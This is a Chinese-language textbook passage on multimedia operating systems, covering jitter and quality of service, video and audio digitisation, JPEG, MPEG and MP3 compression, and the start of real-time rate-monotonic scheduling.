耳朵比眼睛更加敏感，传输时间中即使存在几毫秒的变动也会被察觉到。传输率的变动称为颤动（jitter），必须严格限制颤动以获得良好的性能。注意，颤动不同于延迟。如果图7-1中的分布式网络均匀地将所有的位准确地延迟5s，电影将开始得稍稍晚一些，但是看起来却不错。但从另一方面来说，如果分布式网络在100～200ms之间随机地延迟各帧，那么不论是谁主演的电影，看起来都像是查理・卓别林的老片。
让人可以接受地回放多媒体所要求的实时性通常通过服务质量（quality of service）参数来描述，这些参数包括可用平均带宽、可用峰值带宽、最小和最大延迟（两者一起限制了颤动）以及位丢失概率。例如，网络运营商提供的服务可以保证4 Mbps的平均带宽、105～110ms时间间隔之内99%的传输延迟以及10-10 的位丢失概率，那么这样的服务质量对于MPEG-2电影来说是非常好的。网络运营商还可以提供价格更为低廉等级也比较低的服务，例如平均带宽为1 Mbps（如ADSL），在这种情况下，服务质量就不得不打些折扣，可能是降低分辨率、降低帧率或者是放弃颜色信息以黑白方式播放电影。
提供服务质量保证的最常见的方法是预先为每一个新到的客户预留容量，预留的资源包括CPU、内存缓冲区、磁盘传输容量以及网络带宽。如果一位新的客户到来并且想观看一部电影，但是视频服务器或网络计算出不具有为另一位客户提供服务的容量，那么它将拒绝新的客户，以避免降低向当前客户提供的服务质量。因此，多媒体服务器需要有资源预留方案和进入控制算法（admission control algorithm），以判定什么时候能够处理更多的任务。
在大多数系统中，普通的文本文件由字节的线性序列组成，没有操作系统了解或关心的任何结构。对于多媒体而言，情况就复杂多了。首先，视频与音频是完全不同的。它们由不同的设备捕获（视频为CCD芯片，音频为麦克风），具有不同的内部结构（视频每秒有25～30帧，音频每秒有44 100个样本），并且它们通过不同的设备来回放（视频为显示器，音频为扩音器）。
此外，大多数好莱坞电影现在针对的是全世界的观众，而这些观众大多不讲英语。这一情况有两种处理方法。对于某些国家，需要产生一个额外的声音轨迹，用当地语言进行配音，但是不包含音效。在日本，所有的电视都具有两个声道，电视观众看外国影片时可以听原声语言也可以听日语，遥控器上有一个按钮可以用来进行语言选择。在其他国家中，使用的是原始的声音轨迹，配以当地语言的字幕。
除此之外，许多在电视中播放的电影现在也提供英文字幕，使讲英语但是听力较弱的人可以观看。结果，数字电影实际上可能由多个文件组成：一个视频文件、多个音频文件以及多个包含各种语言字幕的文本文件。DVD能够存放至多32种语言的字幕文件。简单的一组多媒体文件如图7-3所示，我们将在本章后面解释快进和快倒的含义。
因此，文件系统需要跟踪每个文件的多个“子文件”。一种可能的方案是像传统的文件一样管理每个子文件（例如，使用i节点来跟踪文件的块），并且要有一个新的数据结构列出每个多媒体文件的全部子文件。另一方法是创造一种二维的i节点，使每一列列出每个子文件的全部块。一般而言，其组织必须能够使观众观看电影时可以动态地选择使用哪个音频及字幕轨迹。
在各种情况下，还必须有保持子文件同步的某种方法，这样才能保证当选中的音频轨迹回放时与视频保持同步。如果音频与视频存在即使是轻微的不同步，观众可能会在演员的嘴唇运动之前或之后才听到他说的话，这很容易察觉到，相当让人扫兴。
为了更好地理解多媒体文件是如何组织的，有必要在某种细节程度上了解数字音频与数字视频是如何工作的，下面我们将介绍这些主题。
人类的眼睛具有这样的特性：当一幅图像闪现在视网膜上时，在它衰退之前将保持几毫秒的时间。如果一个图像序列以每秒50或更多张图像闪现，眼睛就不会注意到它看到的是不连续的图像。所有基于视频或影片胶片的运动图像系统都利用了这一原理产生活动的画面。
要想理解视频系统，最好从简单且过时的黑白电视开始。为了将二维图像表示为作为时间函数的一维电压，摄像机用一个电子束对图像进行横向扫描并缓慢地向下移动，记录下电子束经过处光的强度。在扫描的终点处，电子束折回，称为一帧（frame）。这一作为时间函数的光的强度以广播方式传播出去，接收机则重复扫描过程以重构图像。摄像机与接收机采用的扫描模式如图7-4所示。（CCD摄像机的成像方式是积分而非扫描，但是某些摄像机及所有的CRT显示器采用的都是扫描方式。）
精确的扫描参数随国家的不同而有所不同。NTSC有525条扫描线，水平与垂直方向的纵横比为4:3，每秒为30（实际为29.97）帧。欧洲的PAL和SECAM制式有625条扫描线，纵横比也是4:3，每秒为25帧。在两种制式中，顶端和底端的几条线是不显示的（为的是在原始的圆形CRT上显示一个近似矩形的图像）。525条NTSC扫描线中只显示483条，625条PAL/SECAM扫描线中只显示576条。
虽然每秒25帧足以捕获平滑的运动，但是在这样的帧率下，有许多人特别是老年人会感觉到图像闪烁（因为新的图像尚未出现以前旧的图像就已经在视网膜上消失）。增加帧率就会对稀缺的带宽提出更多的要求，因此要采取不同的方法。这一方法不是按从上到下的顺序显示扫描线，而是首先显示所有的奇数扫描线，接着再显示所有的偶数扫描线。此处的半帧称为一个场（field）。实验表明，尽管人们在每秒25帧时感觉到闪烁，但是在每秒50场时却感觉不到。这一技术被称为隔行扫描（interlacing）。非隔行扫描的电视或视频被称为逐行扫描（progressive）。
彩色视频采用与单色（黑白）视频相同的扫描模式，只不过使用了三个同时运动的电子束而不是一个运动电子束来显示图像，对于红、绿和蓝（RGB）这三个加性原色中的每一颜色使用一个电子束。这一技术能够工作是因为任何颜色都可以由红、绿和蓝以适当的强度线性叠加而构造出来。然而，为了在一个信道上进行传输，三个彩色信号必须组合成一个复合（composite）信号。
为了使黑白接收机可以显示传输的彩色电视节目，NTSC、PAL和SECAM三种制式均将RGB信号线性组合为一个亮度（luminance）信号和两个色度（chrominance）信号，但是不同的制式使用不同的系数从RGB信号构造这些信号。说来也奇怪，人的眼睛对亮度信号比对色度信号敏感得多，故色度信号倒不必非要精确地进行传输。因此，亮度信号应该用与旧的黑白信号相同的频率进行广播，从而使其可以被黑白电视机接收。两个色度信号则可以以更高的频率用较窄的波段进行广播。某些电视机有标着亮度、色调和饱和度（或者是亮度、色彩和颜色）字样的旋钮或调节装置，可以分别控制这三个信号。理解亮度和色度对于理解视频压缩的工作原理是十分必要的。
到目前为止我们介绍的都是模拟视频，现在让我们转向数字视频。数字视频最简单的表示方法是帧的序列，每一帧由呈矩形栅格的图像要素即像素（pixel）组成。对于彩色视频，每一像素RGB三色中的每种颜色用8个二进制位来表示，这样可以表示224 ≈1600万种不同的颜色，已经足够了。人的眼睛没有能力区分这么多颜色，更不用说更多的颜色了。
要产生平滑的运动效果，数字视频像模拟视频一样必须每秒至少显示25帧。然而，由于高质量的计算机显示器通常用存放在视频RAM中的图像每秒钟扫描屏幕75次或更多次，隔行扫描是不必要的，因此所有计算机显示器都采用逐行扫描。仅仅连续刷新（也就是重绘）相同的帧三次就足以消除闪烁。
换言之，运动的平滑性是由每秒不同的图像数决定的，而闪烁则是由每秒刷新屏幕的次数决定的。这两个参数是不同的。一幅静止的图像以每秒20帧的频率显示不会表现出断断续续的运动，但是却会出现闪烁，因为当一帧画面在视网膜上消退时下一帧还没有出现。一部电影每秒有20个不同的帧，在80 Hz的刷新率下每一帧将连续绘制4次，这样不会出现闪烁，但是运动将是断断续续的。
当我们考虑在网络上传输数字视频所需要的带宽时，这两个参数的重要性就十分清楚了。目前许多计算机显示器都采用4:3的纵横比，所以可以使用便宜的并且大量生产的显像管，这样的显像管本来是为电视市场的消费者设计的。显示器常用的配置有640×480（VGA）、800×600（SVGA）、1024×768（XGA）以及1600×1200（UXGA）。每像素24位的UXGA显示以及25帧/秒，需要1.2Gbps的带宽，即使VGA显示也需要184Mbps。将这些速率加倍以避免闪烁是没有吸引力的，更好的解决方案是每秒传输25帧，同时让计算机保存每一帧并将其绘制两次。广播方式的电视没有使用这一策略，因为电视机没有存储器，并且模拟信号如果不首先转换成数字形式无论如何也无法存放在RAM中，而模数转换则需要额外的硬件。因此，隔行扫描对于广播方式的电视而言是需要的，但是对数字视频则不需要。
音频（声音）波是一维的声（压）波。当声波进入人耳的时候，鼓膜将振动，导致内耳的小骨随之振动，将神经脉冲送入大脑，这些脉冲被收听者感知为声音。类似地，当声波冲击麦克风的时候，麦克风将产生电信号，将声音的振幅表示为时间的函数。
人耳可以听到的声音的频率范围从20 Hz到20 000Hz，而某些动物，特别是狗，能够听到更高频率的声音。耳朵是以对数规律听声音的，所以两个振幅为A和B的声音的比率习惯以dB（分贝）为单位来表示，公式为
dB=20 log10 (A/B)
如果我们定义1 kHz正弦波可听度的下限（压力大约为0.0003 dyne/cm2 ）为0 dB，那么日常谈话大约为50 dB，而使人感到痛苦的阈值大约为120 dB，动态范围为一百万量级。为避免混淆，上面公式中的A和B是振幅。如果我们使用的是功率水平，则上面公式中对数前面的系数应该为10，而不是20，因为功率与振幅的平方成正比。
音频波可以通过模数转换器（Analog Digital Converter，ADC）转换成数字形式。ADC以电压作为输入，并且生成二进制数作为输出。图7-5a中为一个正弦波的例子。为了数字化地表示该信号，我们可以每隔∆T秒对其进行采样，如图7-5b中的条棒高度所示。如果一个声波不是纯粹的正弦波，而是正弦波的线性叠加，其中存在的最高频率成分为f，那么以2f的频率进行采样就足够了。1924年贝尔实验室的一位物理学家Harry Nyquist从数学上证明了这一结果，这就是著名的Nyquist抽样定理。更多地进行采样是没有价值的，因为如此采样可以检测到的更高的频率并不存在。
数字样本是不准确的。图7-5c中的样本只允许9个值，从-1.00到1.00，步长为0.25，因此，需要4个二进制位来表示它们。8位样本可以有256个不同的值，16位样本可以有65 536个不同的值。由于每一样本的位数有限而引入的误差称为量化噪声（quantization noise）。如果量化噪声太大，耳朵就会感觉到。
对声音进行采样的两个著名的例子是电话和音频CD。电话系统使用的是脉冲编码调制（pulse code modulation），脉冲编码调制每秒以7位（北美和日本）或8位（欧洲）对声音采样8000次，故这一系统的数据率为56 000 bps或64 000 bps。由于每秒只有8000个样本，所以4 kHz以上的频率就丢失了。
音频CD是以每秒44 100个样本的采样率进行数字化的，足以捕获最高达到22 050 Hz的频率，这对于人而言是很好的，但是对于狗而言却是很差的。每一样本在其振幅范围内以16位进行线性量化。注意，16位样本只有65 536个不同的值，而人耳以最小可听度为步长进行测量时的动态范围大约为一百万。所以每个样本只有16位引入了某些量化噪声（尽管没有覆盖全部动态范围，但是人们并不认为CD的质量受到损害）。以每秒44 100个样本、每个样本16位计算，音频CD需要的带宽单声道为705.6 Kbps，立体声为1.411 Mbps（参见图7-2）。音频压缩也许要以描述人类听觉如何工作的心理声学模型为基础。使用MPEG第3层（MP3）系统进行10倍的压缩是可能的。采用这一格式的便携式音乐播放器近年来已经十分普遍。
数字化的声音可以十分容易地在计算机上用软件进行处理。有许许多多的个人计算机程序可以让用户从多个信号源记录、显示、编辑、混合和存储声波。事实上，所有专业的声音记录与编辑系统如今都是数字化的。模拟方式基本上过时了。
现在我们已经十分清楚，以非压缩格式处理多媒体信息是完全不可能的——它的数据量太大了，惟一的希望是有可能进行大比例的数据压缩。幸运的是，在过去几十年，大量的研究群体已经发明了许多压缩技术和算法，使多媒体传输成为可能。在下面几节中，我们将研究一些多媒体数据（特别是图像）的压缩方法，更多的细节请参见（Fluckiger,1995；Steinmetz和Nahrstedt,1995）。
所有的压缩系统都需要两个算法：一个用于在源端对数据进行压缩，另一个用于在目的端对数据进行解压缩。在文献中，这两个算法分别被称为编码（encoding）算法和解码（decoding）算法，我们在本书中也使用这样的术语。
这些算法具有某些不对称性，这一不对称性对于理解数据压缩是十分重要的。首先，对于许多应用而言，一个多媒体文档（比如说一部电影）只需要编码一次（当该文档存储在多媒体服务器上时），但是需要解码数千次（当该文档被客户观看时）。这一不对称性意味着，假若解码算法速度快并且不需要昂贵的硬件，那么编码算法速度慢并且需要昂贵的硬件也是可以接受的。从另一方面来说，对于诸如视频会议这样的实时多媒体而言，编码速度慢是不可接受的，在这样的场合，编码必须即时完成。
第二个不对称性是编码/解码过程不必是100%可逆的。也就是说，当对一个文件进行压缩并进行传输，然后对其进行解压缩时，用户可以期望取回原始的文件，准确到最后一位。对于多媒体，这样的要求是不存在的。视频信号经过编码和解码之后与原始信号只存在轻微的差异通常就是可以接受的。当解码输出不与原始输入严格相等时，系统被称为是有损的（lossy）。所有用于多媒体的压缩系统都是有损的，因为这样可以获得更好的压缩效果。
用于压缩连续色调静止图像（例如照片）的JPEG（Joint Photographic Experts Group，联合摄影专家组）标准是由摄影专家在ITU、ISO和IEC等其他标准组织的支持下开发出来的。JPEG标准对于多媒体而言是十分重要的，因为用于压缩运动图像的标准MPEG不过是分别对每一帧进行JPEG编码，再加上某些帧间压缩和运动补偿等额外的特征。JPEG定义在10918号国际标准中。它具有4种模式和许多选项，但是我们在这里只关心用于24位RGB视频的方法，并且省略了许多细节。
用JPEG对一幅图像进行编码的第一步是块预制。为明确起见，我们假设JPEG输入是一幅640×480的RGB图像，每个像素24位，如图7-6a所示。由于使用亮度和色度可以获得更好的压缩效果，所以从RGB值中计算出一个亮度信号和两个色度信号，对于NTSC制式，分别将其记作Y、I和Q，对于PAL制式，分别将其记作Y、U和V，两种制式的计算公式是不同的。下面我们将使用NTSC的符号，但是压缩算法是相同的。
对Y、I和Q构造不同的矩阵，每个矩阵其元素的取值范围在0到255之间。接下来，在I和Q矩阵中对由4个元素组成的方块进行平均，将矩阵缩小至320×240。这一缩小是有损的，但是眼睛几乎注意不到，因为眼睛对亮度比对色度更加敏感，然而这样做的结果是将数据压缩了2倍。现在将所有三个矩阵的每个元素减去128，从而将0置于取值范围的中间。最后将每个矩阵划分成8×8的块，Y矩阵有4800块，其他两个矩阵每个有1200块，如图7-6b所示。
JPEG的第2步是分别对7200块中的每一块应用DCT（离散余弦变换）。每一DCT的输出是一个8×8的DCT系数矩阵。DCT矩阵的（0,0）元素是块的平均值，其他元素表明每一空间频率存在多大的谱功率。对于熟悉傅立叶变换的读者而言，DCT则是一种二维的空间傅立叶变换。在理论上，DCT是无损的，但是在实践中由于使用浮点数和超越函数总要引入某些舍入误差，从而导致轻微的信息损失。通常这些元素随着到（0,0）元素距离的增加而迅速衰减，如图7-7b所示。
DCT完成之后，JPEG进入到第3步，称为量化（quantization），在量化过程中不重要的DCT系数将被去除。这一（有损）变换是通过将8×8 DCT矩阵中的每个元素除以取自一张表中的权值而实现的。如果所有权值都是1，那么该变换将不做任何事情。然而，如果权值随着离原点的距离而急剧增加，那么较高的空间频率将迅速衰落。
图7-8给出了这一步的一个例子，在图7-8中我们可以看到初始DCT矩阵、量化表和通过将每个DCT元素除以相应量化表元素所获得的结果。量化表中的值不是JPEG标准的一部分。每一应用必须提供自己的量化表，这样就给应用以控制自身压缩损失权衡的能力。
第4步通过将每一块的（0,0）值（左上角元素）以它与前一块中相应元素相差的量替换而减小。由于这些元素是各自所在块的平均，它们应该变化得比较缓慢，所以采用差值可以将这些元素中的大部分缩减为较小的值。对于其他元素不计算差值。（0,0）值称为DC分量，其他值称为AC分量。
第5步是将64个元素线性化并且对线性化得到的列表进行行程长度编码。从左到右然后从上到下地对块进行扫描不能将零集中在一起，所以采用了Z字形的扫描模式，如图7-9所示。在本例中，Z字形模式最终在矩阵的尾部产生了38个连续的0，这一串0可以缩减为一个计数表明有38个0。
现在我们得到一个代表图像的数字列表（在变换空间中），第6步将采用Huffman编码对列表中的数字进行编码以用于存储或传输。
JPEG看来似乎十分复杂，这是因为它确实很复杂。尽管如此，由于它通常可以获得20:1或更好的压缩效果，所以获得广泛的应用。解码一幅JPEG图像需要反过来运行上述算法。JPEG大体上是对称的：解码一幅图像花费的时间与编码基本相同。
最后，我们讨论问题的核心：MPEG（Motion Picture Experts Group，运动图像专家组）标准。这是用于压缩视频的主要算法，并于1993年成为国际标准。MPEG-1（第11172号国际标准）设计用于视频录像机质量的输出（对NTSC制式为352×240），它使用的位率为1.2 Mbps。MPEG-2（第13818号国际标准）设计用于将广播质量的视频压缩至4 Mbps到6 Mbps，这样就可以适应NTSC或PAL制式的广播频道。
MPEG的两个版本均利用了在电影中存在的两类冗余：空间冗余和时间冗余。空间冗余可以通过简单地用JPEG分别对每一帧进行编码而得到利用。互相连续的帧常常几乎是完全相同的，这就是时间冗余，利用这一事实可以达到额外的压缩效果。数字便携式摄像机使用的数字视频（Digital Video，DV）系统只使用类JPEG的方案，这是因为只单独对每一帧进行编码可以达到更快的速度，从而使编码可以实时完成。这一论断的因果关系可以从图7-2看出：尽管数字便携式摄像机与未压缩电视相比具有较低的数据率，但是却远不及MPEG-2。（为了使比较公平，请注意DV便携式摄像机以8位对亮度、以2位对每一色度进行采样，使用类JPEG编码仍然存在5倍的压缩率。）
对于摄像机和背景绝对静止，而有一两个演员在四周缓慢移动的场景而言，帧与帧之间几乎所有的像素都是相同的。此时，仅仅将每一帧减去前一帧并且在差值图像上运行JPEG就相当不错。然而，对于摇动或缩放摄像机镜头的场景而言，这一技术将变得非常糟糕。此时需要某种方法对这一运动进行补偿，这正是MPEG要做的事情；实际上，这就是MPEG和JPEG之间的主要差别。
MPEG-2输出由三种不同的帧组成，观看程序必须对它们进行处理，这三种帧为：
1)I帧：自包含的JPEG编码静止图像。
2)P帧：与上一帧逐块的差。
3)B帧：与上一帧和下一帧的差。
I帧只是用JPEG编码的静止图像，沿着每一轴还使用了全分辨率的亮度和半分辨率的色度。在输出流中使I帧周期性地出现是十分必要的，其原因有三。首先，MPEG可以用于电视广播，而观众收看是随意的。如果所有的帧都依赖于其前驱直到第一帧，那么错过了第一帧的人就再也无法对随后的帧进行解码，这样使观众在电影开始之后就不能再进行收看。第二，如果任何一帧在接收时出现错误，那么进一步的解码就不可能再进行。第三，没有I帧，在进行快进或倒带时，解码器将不得不计算经过的每一帧，只有这样才能知道快进或倒带停止时帧的全部值。有了I帧，就可以向前或向后跳过若干帧直到找到一个I帧并从那里开始观看。由于上述原因，MPEG每秒将I帧插入到输出中一次或两次。
与此相对照，P帧是对帧间差进行编码。P帧基于宏块（macroblock）的思想，宏块覆盖亮度空间中16×16个像素和色度空间中8×8个像素。通过在前一帧中搜索宏块或者与其只存在轻微差异的宏块实现对一个宏块的编码。
P帧的用途在图7-10所示的例子中可以看出。在图7-10中我们看到三个连续的帧具有相同的背景，但是在一个人所在的位置上存在差异。对于摄像机固定在三脚架上，而演员在摄像机面前活动的情形中，这种场景是常见的。包含背景的宏块是严格匹配的，但是包含人的宏块在位置上存在某一未知数量的偏移，编码时必须追踪到前一帧中相应的宏块。
MPEG标准没有规定如何搜索、搜索多远以及如何计算一个匹配的好坏，这些都留给每一具体的实现。例如，一种实现可能在前一帧中的当前位置以及所有在x方向偏移±∆x、在y方向偏移±∆y的位置搜索一个宏块。对于每个位置，可以计算出亮度矩阵中匹配的数目。具有最高得分的位置将成为获胜者，只要其得分高于某一预设的阈值。否则，宏块就被称为失配。当然，更复杂的算法也是可能的。
如果一个宏块被找到，则通过以其值与前一帧中的值求差对其进行编码（针对亮度和两个色度），然后，对这些差值矩阵进行JPEG编码。输出流中宏块的值是运动矢量（宏块在每一方向从其前一位置移动多远的距离），随后是以JPEG进行编码的与前一帧的差值。如果宏块在前一帧中查找不到，则当前值以JPEG进行编码，如同在I帧中一样。
B帧与P帧相类似，不同的是它允许参考宏块既可以在前一帧中，也可以在后续的帧中，既可以在I帧中，也可以在P帧中。这一额外的自由可以改进运动补偿，并且在物体从前面（或后面）经过其他物体时非常有用。例如，在一场垒球比赛中，当三垒手将球掷向一垒时，可能存在某些帧其中垒球遮蔽了在背景中移动的二垒手的头部。在下一帧中，二垒手的头部可能在垒球的左面有一部分可见，头部的下一个近似可以从垒球已经通过了头部的后续的帧中导出。B帧允许一个帧基于未来的帧。
要进行B帧编码，编码器需要在内存中同时保存三个解码的帧：过去的一帧、当前的一帧和未来的一帧。为了简化解码，各帧必须以依赖的顺序而不是以显示的顺序出现在MPEG流中。因而，当一段视频通过网络被观看时，即使有完美的定时，在用户的机器上也需要进行缓冲，对帧进行记录以便正常地显示。由于这一依赖顺序和显示顺序间的差异，试图反向播放一部电影而没有相当可观的缓冲和复杂的算法是无法工作的。
有许多动作以及快速剪切（比如战争电影）的电影需要许多I型帧。而那种在导演对准了摄像机之后便出去喝咖啡，只留下演员背台词（比如爱情故事）的电影，就可以使用长段的P帧与B帧，而这两种帧结构与I帧相比使用很少的存储空间。从磁盘效率的角度来看，一个运营多媒体服务的公司应该尝试得到尽可能多的女性消费群体。
就像我们刚刚看到的，CD品质的音频需要一个1.411 Mbps带宽的传送。很清楚，在Internet的实际传送中，需要有效的压缩。正是因为这一点，已经发展起来许多不同的音频压缩算法。或许最流行的算法是拥有三个层（变体）的MPEG音频，其中，MP3(MPEG音频层3)是功能最强大也是最出名的。在Internet上随处可见大量MP3格式的音乐，它们并非都合法，因此引发了许多来自艺术家与版权拥有者的案件。MP3属于MPEG视频压缩标准里的音频部分。
音频压缩可以用两种方法完成。在波形编码技术中，信号通过傅立叶变换（Fourier transform）变换成频率分量。图7-11给出一个时间与它最初的15个傅立叶振幅的实例函数。然后每一个分量的振幅用最简短的方法编码。目标是在另一端用尽可能少的二进制位精确地重建其波形。
另一种方法是感知编码，这种技术是在人类听觉系统中寻找某种细纹，用来对信号编码，这种信号听起来与人的正常收听相同，尽管在示波器上看起来却大相径庭。感知编码是基于心理声学的——人们如何感知声音的科学。MP3正是基于感知编码。
感知编码的关键特性在于一些声音可以掩盖住其他声音。想象在一个温暖夏天举办的现场直播的长笛音乐会，突然间，附近的一群工人打开他们的风镐开始挖掘街道。这时没有人可以再听到笛子的声音，因为它已经被风镐的声音给掩盖了。从传送角度看，只编码风镐的频段就足够了，因为听众无论如何都听不到笛子的声音。这种技术就叫做频段屏蔽——在一个频段里响亮的声音掩盖住另一频段中较柔和声音的能力，这种较柔和声音只有在没有响亮声音时才可以听到。事实上，即使风镐停止工作，在一个短时间内笛子的声音也很难再被听到，因为耳朵在开始工作时已经调低了增益，并且需要在一段时间之后才会再次调高增益。这种效果称为暂时屏蔽。
为了使得这些影响能尽量被量化，设想实验1。某个人在一间安静的屋子里戴着与计算机声卡相连的耳机。计算机产生最低100Hz但功率逐渐增加的纯正弦波。这个人被命令在他/她听到一个音调的时候敲击一个键。计算机在记录当前功率级之后，以200Hz、300hz以及其他所有不超过人类听力极限的频率重复之前的实验。在把许多实验者的实验平均值计算出来后，一张关于“需要多大功率才能使人们听到一个音调”的对数-对数图就展现出来了，如图7-12a所示。图中曲线的给出直接结果是：人们并没有必要对那些功率在可听阈值之下的频率编码。例如，在图7-12a中，如果100Hz的功率是20dB，那么在输出上就可以忽略掉，而且不会感觉到声音质量的损失，因为在100Hz处20dB是低于可听水平的。
现在考虑实验2。计算机再次运行实验1，但是这次却一有个大约150赫兹的等幅正弦波叠加在实验频率上。我们发现，在150Hz频率附近的可听阈值上升了，如图7-12b所示。
这一新实验的结果表明：通过跟踪那些被附近频段能量更强的信号所屏蔽的信号，可以省略越来越多的编码信号中的频率，以此来节约二进制位。在图7-12中，125Hz信号的输出是可以完全忽略掉的，并且没有人能够听出其中的不同。甚至当某个频段中的一个强大信号停止后，出于对暂时屏蔽这一知识的了解，也会让我们在耳朵恢复期的时间段内省略掉那些被屏蔽的频率。MP3编码的实质就是对声音做傅立叶变换从而得到每个频率的能量，之后只传递那些不被屏蔽掉的频率，并且用尽可能少的二进制位数来编码这些频率。
有了这些信息作为背景，现在来考察有关编码是如何完成的。通过抽取32kHz、44.1kHz或者48 kHz的波形，完成声音压缩。第一个和最后一个都是四舍五入的整数。44.1kHz是用于Audio CD的，因为这个值能很好地捕获人耳可听到的所有音频信息。可以在以下四个配置中任选一个，用一或两个通道完成抽样：
1)单声道（一个输入流）。
2)双声道（例如，一个英语的和一个日语的音轨）。
3)分立立体声（每个通道分开压缩）。
4)联合立体声（完全利用通道间的冗余）。
首先，选择输出的比特率。MP3可以将摇滚CD的立体声降低到96kbps，并且在质量上几乎没有任何失真，甚至连摇滚迷都听不出差别。而对于一场钢琴音乐会，至少需要128kbps。造成这样不同的原因是因为摇滚的信噪比要比一场钢琴音乐会要高得多（至少从工程角度上看）。也可以选择稍低一点的输出比率，接受质量上的少许失真。
然后将这些样本处理成1152（大概26ms）的一些组，每组首先通过32个数字滤波器，获得32个频率波段。同时，将输入放进一个心理声学的模型中，测定被屏蔽的频率。接下来，进一步转换32频率波段中的每一个，以提供一个更精确的频谱解决方案。
接着，将现有的二进制位分配到各个波段中，大部分二进制位分配给拥有多数频谱能量的未屏蔽波段，小部分二进制位分配给拥有较少频谱能量的未屏蔽波段，已屏蔽的波段不分配二进制位。最后，用霍夫曼编码来对这些二进制位进行编码，它可以将经常出现的数字赋予较短的代码，而对不常出现的数字赋予较长的代码。
实际的工作过程更复杂。为了减少噪音，消除混淆，以及利用通道间冗余，需要各种各样的技术，不过这些内容超出了本书的范围。
支持多媒体的操作系统与传统的操作系统在三个主要的方面有所区别：进程调度、文件系统和磁盘调度。本节中我们开始讨论进程调度，在后面的各节中接着讨论其他主题。
最简单的一种视频服务器可以支持显示固定数目的电影，所有电影使用相同的帧率、视频分辨率、数据率以及其他参数。在这样的情况下，可以采用下述简单但是有效的调度算法。对每一部电影，存在一个进程（或线程），其工作是每次从磁盘中读取电影的一帧然后将该帧传送给用户。由于所有的进程同等重要，每一帧有相同的工作量要做，并且当它们完成当前帧的处理时将阻塞，所以采用轮转调度可以很好地做这样的工作。将调度算法标准化的惟一的额外要求是定时机制，以确保每一进程以恰当的频率运行。
实现适当定时的一种方式是有一个主控时钟，该时钟每秒滴答适当的次数，例如针对NTSC制式，每秒滴答30次。在时钟的每一滴答，所有的进程以相同的次序相继运行。当一个进程完成其工作时，它将发出suspend系统调用释放CPU直到主控时钟再次滴答。当主控时钟再次滴答时，所有的进程再次以相同的次序运行。只要进程数足够少，所有的工作都可以在一帧的时间内完成，采用轮转调度就足够了。
不幸的是，这一模型在实践中几乎没有什么用处。随着观众的来来去去，用户的数目不断发生变化，由于视频压缩的本性（I帧比P帧或B帧大得多），帧的大小剧烈变化，并且不同的电影可能有不同的分辨率。因此，不同的进程可能必须以不同的频率运行，具有不同的工作量，并且具有不同的最终时限（在此之前所有工作必须完成）。
这些考虑导致一个不同的模型：多个进程竞争CPU，每个进程有自己的工作量和最终时限。在下面的模型中，我们将假设系统知道每个进程必须以什么样的频率运行、有多少工作要做以及下一个最终时限是什么。（磁盘调度也是一个问题，但我们将在后面考虑。）多个相互竞争的进程，其中若干进程或全部进程具有必须满足的最终时限的调度称为实时调度（real-time scheduling）。
作为实时多媒体调度程序工作环境的一个例子，我们考虑三个进程A、B和C，如图7-13所示。进程A每30ms运行一次（近似NTSC制式速度），每一帧需要10ms的CPU时间。在不存在竞争的情况下，进程A将在突发A1、A2、A3等中运行，每一突发在前一突发的30ms之后开始。每个CPU突发处理一帧并且具有一个最终时限：它必须在下一个突发开始之前完成。
图7-13中还有另外两个进程：B和C。进程B每秒运行25次（例如PAL制式），进程C每秒运行20次（例如一个慢下来的NTSC或PAL流，意在使一个低带宽的用户连接到视频服务器）。每一帧的计算时间如图7-13中所示，进程B为15ms，进程C为5ms，没有使它们都具有相同的时间只是为了使调度问题更加一般化。
现在调度问题是如何调度A、B和C以确保它们满足各自的最终时限。在寻找调度算法之前，我们必须看一看这一组进程究竟是不是可调度的。回想2.4.4节，如果进程i具有Pi ms的周期并且需要Ci ms的CPU时间，那么系统是可调度的当且仅当
其中m是进程数，在本例中，m=3。注意，Ci /Pi 只是CPU被进程i使用的部分。就图7-13所示的例子而言，进程A用掉CPU的10/30，进程B用掉CPU的15/40，进程C用掉CPU的5/50。将这些分数加在一起为CPU的0.808，所以该系统是可调度的。
到目前为止我们假设每个影片流有一个进程，实际上，每个影片流可能有两个（或更多个）进程，例如，一个用于音频，一个用于视频。它们可能以不同的速率运行并且每一脉冲可能消耗不同数量的CPU时间。然而，将音频进程加入到系统中并没有改变一般模型，因为我们的全部假设是存在m个进程，每个进程以一个固定的频率运行，对每一CPU突发有固定的工作量要求。
在某些实时系统中，进程是可抢占的，在其他的系统中，进程是不可抢占的。在多媒体系统中，进程通常是可抢占的，这意味着允许有危险错过其最终时限的进程在正在运行的进程完成工作以前将其中断，然后当它完成工作之后，被中断的前一个进程再继续运行。这一行为只不过是多道程序设计，正如我们在前面已经看过的。我们要研究的是可抢占的实时调度算法，因为在多媒体系统中没有拒绝它们的理由并且它们比不可抢占的调度算法具有更好的性能。惟一要关心的是如果传输缓冲区在很少的几个突发中被填充，那么在最终时限到来之前该缓冲区应该是完全满的，这样它就可以在一次操作中传递给用户，否则就会引起颤动。
实时算法可以是静态的也可以是动态的。静态算法预先分配给每个进程一个固定的优先级，然后使用这些优先级做基于优先级的抢占调度。动态算法没有固定的优先级。下面我们将研究每种类型的一个例子。
适用于可抢占的周期性进程的经典静态实时调度算法是速率单调调度（Rate Monotonic Scheduling，RMS）（Liu和Layland,1973）。它可以用于满足下列条件的进程：
1)每个周期性进程必须在其周期内完成。
2)没有进程依赖于任何其他进程。
3)每一进程在一次突发中需要相同的CPU时间量。
4)任何非周期性进程都没有最终时限。
5)进程抢占即刻发生而没有系统开销。
前四个条件是合理的。当然，最后一个不是，但是该条件使系统建模更加容易。RMS分配给每个进程一个固定的优先级，优先级等于进程触发事件发生的频率。例如，必须每30ms运行一次（每秒33次）的进程获得的优先级为33，必须每40ms运行一次（每秒25次）的进程获得的优先级为25，必须每50ms运行一次（每秒20次）的进程获得的优先级为20。所以，优先级与进程的速率（每秒运行进程的次数）成线性关系，这正是为什么将其称为速率单调的原因。在运行时，调度程序总是运行优先级最高的就绪进程，如果需要则抢占正在运行的进程。Liu和Layland证明了在静态调度算法种类中RMS是最优的。
图7-14演示了在图7-13所示的例子中速率单调调度是如何工作的。进程A、B和C分别具有静态优先级33、25和20，这意味着只要A需要运行，它就可以运行，抢占任何当前正在使用CPU的其他进程。进程B可以抢占C，但不能抢占A。进程C必须等待直到CPU空闲才能运行。
